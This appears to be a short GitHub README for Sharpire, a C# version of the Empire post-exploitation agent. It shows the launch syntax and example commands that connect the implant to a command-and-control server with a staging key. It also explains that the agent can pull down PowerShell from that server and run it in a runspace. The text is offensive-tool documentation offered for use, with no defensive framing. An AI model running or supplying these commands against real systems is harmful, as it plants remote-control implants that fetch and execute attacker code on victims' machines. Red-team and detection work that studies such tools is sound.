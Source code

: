 ## Sharpire - An implimentation of the Empire Agent in C#

sharpire.exe \<server\> \<stagingkey\> \<language\>



sharpire.exe "http://192.168.255.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "powershell"<br/>
sharpire.exe "http://10.2.2.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "dotnet"

*Note: This is still in testing. 

This application has two modes of operation, the first use the executable to stage down the PowerShell and executes it in a runspace. The second has the agent exist entirely in a C# application with PowerShell only being executed in modules.
